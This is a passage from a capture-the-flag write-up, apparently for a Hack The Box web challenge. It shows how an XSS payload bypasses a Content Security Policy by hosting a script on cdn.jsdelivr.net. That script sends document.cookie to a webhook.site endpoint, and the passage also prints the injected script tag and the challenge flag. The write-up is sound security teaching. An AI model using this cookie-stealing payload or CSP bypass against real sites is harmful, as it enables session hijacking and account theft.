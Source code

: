 ```html{% raw %}
<img src="https://lazicdusan.com"/>
<script src="https://lazicdusan.com"/></script>
<link rel=attachment href="https://lazicdusan.com"></scripts>
```

I also recommend this article on hacktricks.xyz: [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf){:target="_blank"}

One thing that can get in our way when attempting such attack is **Content Security Policy (CSP)**, which is the case in this challenge.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

`Content-Security-Policy` header prevents us form fetching content from arbitrary sources.

I used [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/){:target="_blank"} to check if there are any security issues with this CSP.

Turns out that "*cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.*"

![](/uploads/{{ page.permalink }}/ss26.png)

After a quick Google search on how to upload a file to cdn.jsdelivr.net, I found a tool that does exactly that: [https://www.jsdelivr.com/github](https://www.jsdelivr.com/github){:target="_blank"}

![](/uploads/{{ page.permalink }}/ss27.png)

I wrote a quick script to send a cookie to my webhook.site endpoint.

```js
fetch("https://webhook.site/d7b5e0cc-eb42-4ce1-9af1-d843d8715bb8/?cookies="+document.cookie);
```

I uploaded it to GitHub, and in seconds I made it available on cdn.jsdelivr.net.

```
$ curl https://cdn.jsdelivr.net/gh/dusanlazic/ctf-xss@main/xss-2.js
fetch("https://webhook.site/d7b5e0cc-eb42-4ce1-9af1-d843d8715bb8/?cookies="+document.cookie);
```

To run that script I set "Halloween name" to `<script src='https://cdn.jsdelivr.net/gh/dusanlazic/ctf-xss@main/xss-2.js'></script>`, filled the rest of the form and submitted.

![](/uploads/{{ page.permalink }}/ss28.png)

🥁🥁🥁 ... and here it is.

![](/uploads/{{ page.permalink }}/ss29.png)

Paste the cookie on [jwt.io](https://jwt.io){:target="_blank"} and that's it!

![](/uploads/{{ page.permalink }}/ss30.png)

`HTB{cdn_c4n_byp4ss_c5p!!}`

# 🎉

That's about it for this writeup! I hope that you enjoyed and learned something new. 
